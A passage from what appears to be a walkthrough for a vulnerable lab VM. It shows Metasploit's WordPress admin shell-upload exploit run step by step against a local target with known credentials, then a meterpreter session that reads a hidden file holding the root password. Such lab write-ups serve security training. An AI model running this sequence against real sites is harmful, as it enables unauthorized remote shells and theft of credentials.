




5. Exploitation
Now that we know username and password, we can use an inbuilt wordpress exploit from Metasploit.
WARNING: Disable on the VM Network Adapter 2.
$msfconsole
Output:

Command:
use exploit/unix/webapp/wp_admin_shell_upload
Command:
set rhost 192.168.12.18
Command:
asset targeturi /wordpress
Command:
set username c0rrupt3d_brain
Command:
set password 24992499
Command:
exploit
Output:

You have the meterpreter session, go home by typing
“cd /home”
and checklist of things home has to offer by using ls command.
meterpreter >
cd
/
home
meterpreter >
ls
Output:

There's only on folder there named root3r and when you navigate yourself to that folder.
meterpreter >
cd
root3r
meterpreter >
ls
Output:

You've found
“.root_password_ssh.txt”
file. Reading this text file with a cat you will find the password of the root use.
meterpreter >
cat
.root_password_ssh.txt
The password is
“willy26"
.
Index